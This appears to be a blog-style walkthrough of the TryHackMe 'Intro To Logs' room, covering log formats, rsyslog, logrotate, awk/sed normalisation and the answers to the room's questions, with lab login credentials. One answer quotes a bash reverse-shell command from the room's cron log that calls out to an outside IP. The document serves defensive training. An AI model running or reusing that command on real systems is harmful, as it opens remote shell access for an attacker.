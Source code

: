 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## SOC 2 Learning Pathway

### Introduction

Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are here

login: damianhall
password: Logs321!

#### Q1:  What is the name of your colleague who left a note on the Desktop?

##### cat Desktop/note.txt (or open in the GUI)

>! Perry

#### Q2: What is  full path to the suggested log file for initial investigation?

##### look in cat output of the note!

>! /var/log/gitlab/nginx/access.log

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

#### Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?

##### Task 2 was discussing an Nginx server which is a web server...

>! Web Server Log !<

#### Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?

##### The materials clearly list what format the Nginx web server uses by default.

>! combined

### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

#### Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?

##### after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

>! stansimon

#### Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?

##### cat /etc/rsyslog.d/99-websrv-02-cron.conf

>! 10.10.10.101

#### Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?

#####  cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

>! /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

#### Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?

##### cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

>! 24

#### Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?

##### See the output for the last question.

>! hourly

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

#### Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?

##### OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

>! No date field

#### What is the process of standardising parsed data into a more easily readable and query-able format?

##### This is what we did to the log file with all those awk sed and sort and uniq commands...

>! normalisation

#### What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?

##### This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

>! enrichment

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.
